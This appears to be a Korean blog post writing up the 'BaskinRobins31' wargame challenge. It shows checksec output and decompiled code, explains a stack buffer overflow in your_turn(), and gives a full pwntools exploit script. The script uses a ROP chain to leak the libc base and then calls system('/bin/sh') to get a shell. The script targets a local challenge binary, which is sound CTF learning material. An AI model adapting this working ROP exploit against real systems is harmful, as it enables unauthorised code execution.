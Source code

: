 ```yaml
---
layout: post
title: "baskinrobins31"
comments : true
category : War Game
---
```


# 문제
***

BaskinRobins31 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
BaskinRobins31: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4abb416c74a16aaa8b4c9c6c366bed445c306037, not stripped
```

바이너리 코드

__main()__ 

```
int __cdecl main(int argc, const char ** argv, const char ** envp)
{
    ...
    v5 = 31;
    v6 = 0;
    
    while( (signed int)v5 > 0)
    {
        if(v6)
        {
            my_turn(&v5);
            v6 = 0;
        }
        else
        {
            v6 = (unsigned __int64)your_turn(&v5) != 0;
        }
        ...
    }
    if(v6)
    {
        puts("Wow! You win!");
        ...
    }
    ...
}
```

__your_turn()__
```
signed __int64 __fastcall your_turn(_DWORD *a1)
{
    char s; // [rbp-B0h]
    ...
    v4 = 0;
    memset(&s,0,0x96);
    ...
    n = read(0,&s,0x190);
    write(1,&s,n);
    putchar(10);
    v4 = strtoul(&s,0,10);
    if((unsigned int)check_decision(v4))
    {
        *a1 -= v4;
        result = 1;
    }
    else
    {
        ...
        result = 0;
    }
    return result;
}
```

__your_turn()__ 함수에 bof 취약점이 존재한다. <br/><br/>
ROP gadget을 이용해서 libc base address를 알아낸 뒤에 다시 __your_turn()__ 함수를 호출한다.<br/><br/>
그 다음에 다시 bof를 통해서 system 함수를 호출하는 ROP gadget을 구성하면 쉘을 딸 수 있다.


# 풀이
***
```
#!/usr/bin/python

from pwn import *

file_path="/home/sungyun/round3/baskinrobins31/BaskinRobins31"

libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")

p=process(file_path)

p.recvuntil("(1-3)\n")

puts_got=0x602020
puts_plt=0x4006c0
prdi=0x0000000000400bc3
your_turn=0x00000000004008a4

pay="A"*(0xb0+8)
pay+=p64(prdi)
pay+=p64(puts_got)
pay+=p64(puts_plt)
pay+=p64(your_turn)

p.send(pay)
p.recvuntil(":( \n")

puts=p.recvline()[::-1]
puts=puts[1:]
libc_base=int(puts.encode('hex'),16)-libc.symbols['puts']
system=libc_base+libc.symbols['system']
sh=libc_base+list(libc.search('/bin/sh\x00'))[0]

p.recvuntil("(1-3)\n")

pay2="A"*(0xb0+8)
pay2+=p64(prdi)
pay2+=p64(sh)
pay2+=p64(system)

p.send(pay2)
p.recvuntil(":( \n")

p.interactive()
```



